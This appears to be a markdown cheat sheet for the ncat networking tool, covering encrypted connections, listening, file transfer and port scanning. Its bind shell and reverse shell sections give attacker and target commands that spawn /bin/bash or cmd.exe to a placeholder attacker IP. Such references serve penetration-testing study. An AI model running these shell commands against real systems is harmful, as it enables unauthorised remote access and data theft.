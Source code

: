 # ncat

Allows for encrypted and authenticated TCP or UDP connections to ports on other hosts

## Connect

```bash
ncat -nv $REMOTE_IP $REMOTE_PORT --ssl
```

## Listen

```bash
ncat -nlvp $REMOTE_PORT --ssl
```

## File Transfer

```bash
ncat -nv $REMOTE_IP $REMOTE_PORT -ssl < $FILE
```

## File Reception

```bash
ncat -nlvp $REMOTE_PORT -ssl > $FILE
```

## Bind Shell

- Target:

```bash
ncat -e [/bin/bash or cmd.exe] [--allow $ATTACKER_IP] -nlvp $TARGET_LISTEN_PORT --ssl
```

- Attacker:

```bash
ncat -nv $TARGET_IP $TARGET_LISTEN_PORT --ssl
```

## Reverse Shell

- Attacker:

```bash
ncat -nlvp $ATTACKER_LISTEN_PORT --ssl
```

- Target:

```bash
ncat -nv $ATTACKER_IP $ATTACKER_LISTEN_PORT --ssl -e [/bin/bash or cmd.exe]
```

## Scan a range of ports

```bash
ncat -nv $REMOTE_IP $PORT_RANGE --ssl
```

- PORT_RANGE example:
  - 1-65535
